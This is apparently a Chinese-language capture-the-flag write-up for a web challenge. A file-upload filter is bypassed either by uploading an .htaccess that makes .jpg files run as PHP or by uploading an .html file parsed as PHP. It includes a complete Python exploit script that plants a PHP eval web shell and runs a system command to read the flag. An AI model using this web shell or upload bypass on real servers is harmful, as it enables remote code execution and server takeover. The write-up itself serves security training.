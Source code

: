 ## Web — Shell me please :)
### 考点
文件上传（.htaccess / html解析php）

### 解题思路

![](https://ws1.sinaimg.cn/large/006tNc79ly1g4awg4zikpj31ai0u0x6r.jpg)

随便输入，发现有回显当前输入，可以hint  `f* put content` 大概率可以猜到是`file_put_content()`

简单绕过之后，发现文件上传

![image-20190623105407994](https://ws4.sinaimg.cn/large/006tNc79ly1g4awicj6zsj315a0u07wk.jpg)

#### 解法一 .htaccess

因为后缀名黑名单很容易就能绕过，所以先上传一个.htaccess文件

```
AddType application/x-httpd-php .jpg
```

然后，在上传一个含有恶意脚本的 `.jpg` 即可getshell。

#### 解法二 html解析php

经过测试是可以发现，首页是`index.html`而不是`index.php`，然后上传点，做了黑名单后缀名过滤和MIME白名单，但是上传HTML也在白名单里，所以可以直接上传含恶意脚本的 `.html` 文件，即可getshell。



#### EXP

```python
# -*- coding: utf-8 -*-
# @Author: 0aKarmA_骅文
# @Date:   2019-06-23 23:15:09
# @Last Modified by:   0aKarmA
# @Last Modified time: 2019-06-24 09:46:40
import requests, re


def vulhtml(url):
    vul = url + "?text[]=123"
    files = {'uploaded':('0aKarmA.html', bytes("<?php @eval($_POST['1']); ?>", encoding="utf-8"), 'text/html')}
    verify = requests.get(vul)
    verify = "".join(re.findall(r'verify" value="(.*)"', verify.text))
    data = {'verify':verify, 'Upload':'Upload'}
    requests.post(vul, files=files, data=data)
    flag = requests.post(url + "uploads/" + verify + "_0aKarmA.html", data={'1':'system("cat ../include/flag");'})
    print(flag.text)

def vulhtaccess(url):
    vul = url + "?text[]=123"
    files = {'uploaded':('.htaccess', bytes("AddType application/x-httpd-php .jpg", encoding="utf-8"), 'application/octet-stream')}
    verify = requests.get(vul)
    verify = "".join(re.findall(r'verify" value="(.*)"', verify.text))
    data = {'verify':verify, 'Upload':'Upload'}
    # upload .htaccess
    requests.post(vul, files=files, data=data, proxies={'http':'http:127.0.0.1:8080'})
    # upload jpg
    files = {'uploaded':('0aKarmA.jpg', bytes("<?php @eval($_POST['1']); ?>", encoding="utf-8"), 'image/jpg')}
    verify = requests.get(vul)
    verify = "".join(re.findall(r'verify" value="(.*)"', verify.text))
    data = {'verify':verify, 'Upload':'Upload'}
    requests.post(vul, files=files, data=data)
    flag = requests.post(url + "uploads/" + verify + "_0aKarmA.jpg", data={'1':'system("cat ../include/flag");'})
    print(flag.text)


if __name__ == '__main__':
    url = "ip"
    
    # vulhtml(url)
    vulhtaccess(url)
```


